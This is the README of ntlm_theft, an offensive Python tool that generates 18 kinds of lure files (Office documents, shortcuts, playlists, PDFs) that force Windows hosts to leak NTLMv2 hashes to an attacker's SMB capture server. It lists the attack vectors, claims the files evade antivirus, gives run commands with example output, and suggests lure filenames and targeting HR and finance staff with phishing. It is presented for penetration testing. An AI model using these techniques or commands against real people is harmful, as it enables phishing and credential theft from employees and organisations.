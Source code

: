 # ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 18 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network. 

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 14 of the 18 attacks worked on a fully patched Windows 10 host.  

ntlm_theft supports the following attack types:

* Browse to Folder Containing
	* .url – via URL field
	* .url – via ICONFILE field
	* .scf – via ICONFILE field (Not Working on Latest Windows)
	* autorun.inf via OPEN field (Not Working on Latest Windows)
	* desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
	* .xml – via Microsoft Word external stylesheet
	* .xml – via Microsoft Word includepicture field
	* .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
	* .docx – via Microsoft Word includepicture field
	* .docx – via Microsoft Word external template
	* .docx – via Microsoft Word frameset webSettings
	* .xlsx - via Microsoft Excel external cell
	* .asx – via Windows Media Player playlist (Better, primary open)
	* .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
	* .jnlp – via Java external jar
	* .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
	* .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
	* .txt – formatted link to paste into Zoom chat

More information can be found in this [blogpost](https://medium.com/greenwolf-security/ntlm-theft-a-file-payload-generator-for-forced-ntlm-hash-disclosure-2d5f1fe5b964).

## Usecases (Why you want to run this)

ntlm_theft is primarily aimed at Penetration Testers and Red Teamers, who will use it to perform internal phishing on target company employees, or to mass test antivirus and email gateways. It may also be used for external phishing if outbound SMB access is allowed on the perimeter firewall.

I've found it useful while penetration testing to easily see what file types I have available to me, rather than spending time configuring a specific attack as would be used on red teaming engagements. You could send a .rtf or .docx file to the HR department, and a .xlsx spreadsheet doc to the finance department.

## Getting Started

These instructions will show you the requirements for and how to use ntlm_theft.

### Prerequisites

ntlm_theft requires Python3 and xlsxwriter:

```
pip3 install xlsxwriter
```

### Required Parameters

To start up the tool 4 parameters must be provided, an input format, the input file or folder and the basic running mode:

```
-g, --generate	: Choose to generate all files or a specific filetype
-s, --server 	: The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename	: The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

### Example Runs

Here is an example of what a run looks like generating all files:

```
# python3 ntlm_theft.py -g all -s 127.0.0.1 -f test
Created: test/test.scf (BROWSE)
Created: test/test-(url).url (BROWSE)
Created: test/test-(icon).url (BROWSE)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Generation Complete.
```

Image showing example output in a directory with a .url file open:

![Example Run](docs/example-run.png?raw=true "Example Run")

Image showing the generated .rtf run on a Windows 10 VM, generating NTLMv2 hashes for Responder.

![Demo](docs/demo.png?raw=true "Demo")


Here is an example of what a run looks like generating only modern files:

```
# python3 ntlm_theft.py -g modern -s 127.0.0.1 -f meeting
Skipping SCF as it does not work on modern Windows
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Skipping zoom as it does not work on the latest versions
Skipping Autorun.inf as it does not work on modern Windows
Skipping desktop.ini as it does not work on modern Windows
Generation Complete.
```

Here is an example of what a run looks like generating only a xlsx file:

```
# python3 ntlm_theft.py -g xlsx -s 192.168.1.103 -f Bonus_Payment_Q4
Created: Bonus_Payment_Q4/Bonus_Payment_Q4-(externalcell).xlsx (OPEN)
Generation Complete.
```

## Future Updates

* Add another parameter to change path & file which is requested to user specified to further avoid detections.

## Authors

* **Jacob Wilkin** - *Research and Development*

## License

ntlm_theft
Created by Jacob Wilkin
Copyright (C) 2020 Jacob Wilkin
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Ired](https://ired.team/offensive-security/initial-access/t1187-forced-authentication)
* [Securify](https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html)
* [Pentestlab](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
* [deepzec](https://github.com/deepzec/Bad-Pdf/blob/master/badpdf.py)
* [rocketscientist911](https://github.com/rocketscientist911/excel-ntlmv2)
* [Osanda](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
